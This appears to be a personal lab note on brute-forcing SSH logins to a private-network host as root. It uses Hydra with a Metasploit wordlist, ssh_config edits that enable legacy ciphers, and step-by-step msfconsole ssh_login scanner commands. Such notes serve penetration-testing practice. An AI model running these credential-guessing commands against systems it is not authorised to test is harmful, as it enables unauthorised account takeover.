

#bruteforceattack #hydra #metasploit
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered an issue in running Hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that, it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._


The end result


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```




4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings.


9. Set verbose to true to check run logs
```
set verbose true
run
```


